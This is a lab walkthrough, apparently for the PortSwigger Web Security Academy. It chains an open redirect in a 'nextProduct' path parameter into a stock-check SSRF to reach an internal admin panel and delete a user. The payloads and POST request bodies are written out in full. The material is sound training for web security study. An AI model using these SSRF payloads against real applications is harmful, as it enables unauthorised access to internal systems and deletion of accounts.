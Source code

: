 
# SSRF with filter bypass via open redirection vulnerability

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.


---------------------------------------------

Reference: https://portswigger.net/web-security/ssrf



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/1.png)



---------------------------------------------

Generated link: https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/2.png)

POST request with data “stockApi=/product/stock/check?productId=1&storeId=1”



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/3.png)


The endpoint is reachable through a GET request in https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net/product/stock/check?productId=1&storeId=1 as well:



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/4.png)

There is a “Next product” button:



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/5.png)

It uses the “path” parameter to set the id of the next product to display and redirecto to that page:



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/6.png)

We test the folowing payload and find the open redirection:

```
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/7.png)

Now we will create a new POST request using this payload as the stockApi parameter:

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
```



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/8.png)

Reading the HTML code we see the user carlos can be deleted with a GET request like http://192.168.0.12:8080/admin/delete?username=carlos



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/9.png)

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```



![img](images/SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/10.png)